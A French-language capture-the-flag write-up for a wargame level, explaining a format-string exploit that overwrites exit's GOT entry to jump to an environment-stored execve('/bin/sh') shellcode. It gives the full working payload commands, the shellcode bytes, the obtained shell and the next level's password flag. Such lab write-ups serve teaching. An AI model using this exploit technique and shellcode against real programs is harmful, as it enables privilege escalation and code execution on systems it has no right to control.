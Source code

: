 On ne peut pas faire d'overflow ici, donc on ne pourra pas réutiliser les techniques du level01 et level04.

On va donc voir si il est possible d'écrire un shellcode.

En écrivant: "%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p" en argument, on peut voir qu'à la dixième position,
les adresses mémoires listées sont les caractères de notre argument et nons plus de la donnée en mémoire.

On peut alors penser qu'il est possible d'écrire un shellcode à partir de cette position.
On peut en trouver un exemple qu'on va réutiliser sur le site: http://shell-storm.org/shellcode/files/shellcode-827.php

On va trouver un exemple de shellcode, des instructions en langage machine qui vont executer la fonction execve("/bin/sh"),
nous permettant de traiter des commandes et de lire le fichier de mot de passe.

Notre programme n'a pas accès à l'environnement.
On va donc devoir le rediriger vers l'adresse de notre shellcode à travers exit, plus particulirement son PLT (Procedure Linkage Table)
Le PLT est l'endroit où est stocké la fonction avant que celle ci ne dynamiquement allouée dans la fonction.

Ainsi en utilisant le PLT, on va pouvoir rediriger l'appel de la fonction exit vers notre shellcode en écrasant l'adresse
Pour avoir l'adresse de exit:
objdump -R level05
080497e0
Pour avoir l'adresse du shellcode:
(gdb) x/s *((char **)environ)

0xffffd878

ffff = 65535
d878 = 55416

65535 - 55416 = 10119

on va écrire notre adresse en 2 bytes, on retire 8 bits pour les 4 * 2 bytes de l'adresse qu'on va écrire dans notre commande
Pour ecrire sur ces deux bytes, on va utiliser 2 shorts, grace au flag $hn, ou notre adresse en hexa sera ecrite sur ces deux bytes.

export SHELLCODE=`python -c 'print("\x90"*1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55408d%10$hn" + "%10119d%11$hn")') > /tmp/level05
cat /tmp/level05 - | ./level05
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

Explications:
\x90 est un NOP slide: il permet d'aller à l'instruction suivante

================================================
Source: 
https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html
https://tiwim.github.io/pages/formatstring.html